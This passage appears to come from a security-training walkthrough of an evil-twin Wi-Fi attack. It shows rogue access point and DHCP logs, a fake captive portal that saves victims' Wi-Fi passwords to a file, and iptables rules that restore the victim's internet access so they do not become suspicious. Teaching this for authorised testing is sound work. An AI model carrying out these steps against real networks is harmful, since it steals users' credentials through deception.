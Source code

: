 Once a client connects to our rogue AP, the `hostapd` output would be similar to the following:

```shell
hostapd apd.conf

rfkill: Cannot open RFKILL control device
wlan0: interface state UNINITIALIZED->ENABLED
wlan0: AP-ENABLED
wlan0: STA C2:CA:2A:79:D5:87 IEEE 802.11: authenticated
wlan0: STA C2:CA:2A:79:D5:87 IEEE 802.11: associated (aid 1)
wlan0: AP-STA-CONNECTED C2:CA:2A:79:D5:87
wlan0: STA C2:CA:2A:79:D5:87 RADIUS: starting accounting session D82057CD7522F435

```

Additionally, we would observe a DHCP request from the client for an IP address in the `dnsmasq` tab, confirming that the client is attempting to communicate through the rogue access point.

```shell
sudo dnsmasq -C dns.conf -d

dnsmasq-dhcp: 2979841318 available DHCP range: 192.168.0.2 -- 192.168.0.254
dnsmasq-dhcp: 2979841318 client provides name: client
dnsmasq-dhcp: 2979841318 DHCPREQUEST(wlan0) 192.168.0.232 C2:CA:2A:79:D5:87
dnsmasq-dhcp: 2979841318 tags: wlan0
dnsmasq-dhcp: 2979841318 DHCPACK(wlan0) 192.168.0.232 C2:CA:2A:79:D5:87 client

```

* * *

### 5\. Capture & Validate the credentials

After a client successfully connects, they will be redirected to our fake captive portal, which would look like following:

![manual](pBQ64MjLvRsL.png)

If the client enters their password, the credentials will be captured and saved in the `passes.lst` file.

```shell
cat /var/www/html/passes.lst
<SNIP>

```

After the victim enters the correct password in the captive portal, we can enable internet access for them by configuring the iptables firewall rules. This step is crucial to avoid raising suspicion and maintain the connection.

```shell
iptables --append POSTROUTING --table nat --out-interface eth0 -j MASQUERADE
iptables --append FORWARD --in-interface wlan0 -j ACCEPT

```
